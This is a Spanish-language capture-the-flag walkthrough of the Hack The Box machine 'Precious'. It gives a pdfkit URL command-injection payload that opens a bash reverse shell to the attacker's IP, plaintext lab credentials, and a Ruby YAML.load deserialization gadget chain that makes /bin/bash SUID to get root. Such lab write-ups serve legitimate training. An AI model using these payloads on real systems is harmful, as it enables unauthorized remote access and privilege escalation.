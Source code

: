 ```yaml
---
title: Precious
published: true
---
```


Hoy resolveremos la máquina retirada "Precious" es una máquina de hack the box de dificultad fácil.


![Precious](https://user-images.githubusercontent.com/109216235/207889455-5ddd49b1-bb86-4f89-af3e-65c44935f1f1.png)


# [](#header-1) Enumeración


Empezamos escaneando los puertos de la máquina con nmap


```nmap
sudo nmap 10.10.11.189

Nmap scan report for 10.10.11.189
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


# [](#header-2) Vulnerabilidad


Antes de poder entras tenemos que actualizar nuestro etc/hosts para que la IP apunte a precious.htb
Despues, podríamos entrar en la página.


![image](https://user-images.githubusercontent.com/109216235/207906514-b59cd9d7-607c-4e39-a5de-cc88c267d635.png)


Viendo esto podemos crearnos un servidor con python3 para que nos cree un pdf de nuestro servidor

```python
python3 -m http.server 4444
```

![image](https://user-images.githubusercontent.com/109216235/207906825-45cbd4c1-f7e9-48de-92e8-8053d8e595b7.png)


Esto nos generará un pdf. Lo analizamos con "exiftool" y podemos ver que versión de pdfkit se utiliza


![image](https://user-images.githubusercontent.com/109216235/207907027-277bf2aa-0889-4f7d-9118-127fe9b59a28.png)


Buscamos información sobre como injectar comandos en esta máquina. En este sitio https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795 encontramos una vulnerbilidad de la que nos podemos aprovechar.
Usando el ejemplo podemos manipularlo para que nos dé una revershell. Recordad que tenemos que poner en escucha "netcat"

```netcat
netcat -lnvp 4444
```

Ejemplo:
```bash
http://example.com/?name=#{'%20`sleep 5`'}
```
Revershell cambiando el ejemplo:
```bash
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.16.18/4444 0>&1"`'}
```

Este comando que hemos creado hace:
bash -c: permite introducir strigns
bash -i: Hace que la revershell sea interacitva
/dev/tcp/10.10.16.18/4444: crea la revershell cuando se ejecuten


![image](https://user-images.githubusercontent.com/109216235/207907465-d2cdd79e-7a17-4eb0-8fef-2b00fedc3b7c.png)


Dentro de la máquina podemos encontrar dentro del usuario "ruby" una carpeta oculta llamada "bundle" que contiene las credenciales de "henry"


```
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```


# [](#header-2) Escalada de privilegios


Accedemos al ssh con las credenciales de "henry"


```ssh
ssh henry@10.10.11.189
henry@10.10.11.189's password:Q3c1AqGHtoI0aXAYFH
```

Dentro de la carpeta /home/ de "henry" encontramos la user.txt y ya tendríamos la mitad de la máquina


Utilizamos ```sudo -l``` para ver que se ejecuta como root

```ssh
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Buscamos como escalar de privilegios con Ruby YAML.load. En esta página (https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) encontramos una vulnerabilidad. Vemos que si manipulamos el campo git-set podemos escalar de privilegios.

Ejemplo:
```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

Escalada cambiando el ejemplo:

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```


No se nos puede olvidar que este script se tiene que llamar dependencies.yml y tiene que estar en la carpeta /home/ de "henry"

Ahora ejecutamos este script con ```bash -p``` y tendríamos una shell root. Buscamos la carpeta /root/ y allí encontrariamos la root.txt y habríamos completado la máquina.
